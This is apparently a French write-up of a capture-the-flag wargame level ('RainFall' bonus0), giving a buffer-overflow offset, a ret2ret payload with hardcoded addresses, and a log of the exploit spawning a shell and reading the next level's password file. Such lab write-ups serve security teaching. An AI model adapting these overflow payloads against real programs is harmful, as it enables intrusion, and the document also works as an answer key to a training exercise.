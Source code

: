 # bonus0: RET2RET

> Je decide pour les bonus de ne pas detailler pour que chacun puisse trouver sa propre methode.


### OFFSET
 
 - 
AAAAAAAAAAAAAAAAAAAA 20 octets
 - 
AAAAAAAAABBBBAAAAAAA 20 octets


### PAYLOAD RET2RET

```bash
(python -c 'print "A"*20'; python -c 'print "AAAAAAAAA" + "\xcb\x85\x04\x08" + "\xfc\xfb\xff\xbf" + "AAA"'; cat) | ./bonus0
```
- env : 0xbffffbfc
- ret : 0x080485cb

### EXEC

```bash
bonus0@RainFall:~$ (python -c 'print "A"*20'; python -c 'print "AAAAAAAAA" + "\xcb\x85\x04\x08" + "\xfc\xfb\xff\xbf" + "AAA"'; cat) | ./bonus0 
 - 
 - 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAA����AAA��� AAAAAAAAA����AAA���
$ pwd
/home/user/bonus0
$ whoami
bonus1
$ cat /home/user/bonus1/.pass
cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9
```

PLUS QUE 3 ! :)